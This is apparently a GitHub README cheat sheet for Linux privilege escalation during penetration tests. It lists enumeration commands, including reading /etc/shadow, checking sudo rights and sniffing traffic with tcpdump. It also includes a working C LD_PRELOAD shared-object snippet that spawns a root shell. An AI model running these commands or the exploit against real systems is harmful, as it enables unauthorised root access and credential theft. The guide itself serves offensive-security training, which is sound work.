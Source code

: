 # Linux-PrivEsc-full-guide

Hi Folks! I made this repo that share the privilege escalation techniques I tend to use on Linux systems. At the moment, you will see basic stuff which works the best IRL but later I am going to add CTF specific techniques. Let's get into it!

# Enumeration

So, one of the your target companys users downloaded and executed a malicious file you happened to send them. You found credentials in clear text and connected back to the machine using SSH. What's the first thing you do? Identify where the hell are you and what you can do at this point of the engagement. For that I use the following commands:

history (to identify previously executed commands in the shell)
whoami, id ( to enumerate the user)
cat /etc/passwd, cat etc/shadow, cat /etc/group (check if we can see the stored passwords, users, groups)
ps aux, ps aux | grep root (to see unusual processes and processes run by the root user)
hostname, uname -a, cat proc/version, cat /etc/issue, lscpu (to further enumerate the system, kernel version, errors..etc)
sudo -l (to check which commands I can run as a super user without the password)

After executing sudo -l check the value of LD_PRELOAD, if you see something like this: env_keep += LD_PRELOAD. Than you can use the following little C script to gain root access:

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}


# Network enumeration

ifconfig (to see network interfaces, ip addresses..etc)
ip a (alternative for ifconfig)
arp -a (to check to ARP table and discover additional assets on the subnet)
ip neigh (alternative for the arp command)
ip route (to check the route table and discover gateways, additional IPs)
netstat (to see active connections)

wireshark
tcpdump -i <interface> -s 65535 -w <file> 

(Try to sniff traffic, it's less noisy and you have more data to work with during the engagement)

